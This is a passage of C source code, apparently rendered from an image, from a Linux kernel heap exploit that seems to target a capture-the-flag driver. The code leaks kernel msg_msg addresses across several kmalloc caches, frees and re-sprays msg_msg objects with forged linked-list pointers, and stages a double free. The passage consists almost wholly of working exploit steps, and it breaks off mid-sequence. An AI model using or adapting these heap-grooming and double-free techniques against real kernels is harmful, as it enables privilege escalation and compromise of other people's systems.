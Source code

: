 ```c

  puts("[+] leak msg_msg idx we're interested in");
  leak = (size_t *)buf1;
  size_t vuln_idx = leak[6];
  printf("[+] msg_msg idx: %p\n", vuln_idx);

  puts("[+] leak msg_msg addr in cg-512");
  leak = (size_t *)buf1;
  size_t cg512_msgmsg_addr = leak[0];
  printf("[+] cg-512 msg_msg addr: %p\n", cg512_msgmsg_addr);

  puts("[+] leak msg_msg addr in cg-1k");
  size_t cg1k_msgmsg_addr = leak[1];
  printf("[+] cg-1k msg_msg addr: %p\n", cg1k_msgmsg_addr);

  puts("[+] free the lovely msg_msg in cg-256");
  msgrcv(msg_queues[vuln_idx], &msgmsg_256, sizeof(msgmsg_256) - sizeof(long), 0x256, 0);
  puts("[+] done freeing");

  puts("[+] re-spray msg_msg cg-256 and fix the linked list");
  payload_256[22] = cg512_msgmsg_addr + 0xe0;
  payload_256[23] = chemical_head;
  for (int i = 0; i < msgs_spray; i++) {
    payload_256[0] = i;
    msgsnd(msg_queues[i], &msgmsg_256, sizeof(msgmsg_256) - sizeof(long), 0);
  }
  puts("[+] done spraying");

  puts("[+] leak msg_msg addr in cg-2k");
  chem_read(1, buf0, buf1);
  leak = (size_t *)buf1;
  size_t cg2k_msgmsg_addr = leak[0];
  printf("[+] cg-2k msg_msg addr: %p\n", cg2k_msgmsg_addr);

  puts("[+] free the lovely msg_msg in cg-512");
  msgrcv(msg_queues[vuln_idx], &msgmsg_512, sizeof(msgmsg_512) - sizeof(long), 0x512, 0);
  puts("[+] done freeing");

  puts("[+] spray msg_msg cg-512 and fix the linked list and setup the double free in cg-1k");
  payload_512[22] = cg2k_msgmsg_addr + 0xe0;
  payload_512[23] = cg256_msgmsg_addr + 0xe0;
  payload_512[25] = cg1k_msgmsg_addr;
  for (int i = 0; i < msgs_spray; i++) {
    payload_512[0] = i;
    msgsnd(msg_queues[i], &msgmsg_512, sizeof(msgmsg_512) - sizeof(long), 0);
  }
  puts("[+] done spraying");

  puts("[+] free the lovely msg_msg in cg-2k");
  msgrcv(msg_queues[vuln_idx], &msgmsg_2k, sizeof(msgmsg_2k) - sizeof(long), 0x2048, 0);
  puts("[+] done freeing");

  puts("[+] spray msg_msg cg-2k and fix the linked list");
  payload_2k[22] = cg256_msgmsg_addr + 0xe0;
  payload_2k[23] = cg512_msgmsg_addr + 0xe0;
  for (int i = 0; i < msgs_spray; i++) {
    payload_2k[0] = i;
    msgsnd(msg_queues[i], &msgmsg_2k, sizeof(msgmsg_2k) - sizeof(long), 0);
  }
  puts("[+] done spraying");

  puts("[+] free the lovely msg_msg in cg-1k");
  msgrcv(msg_queues[vuln_idx], &msgmsg_1k, sizeof(msgmsg_1k) - sizeof(long), 0x1024, 0);
```
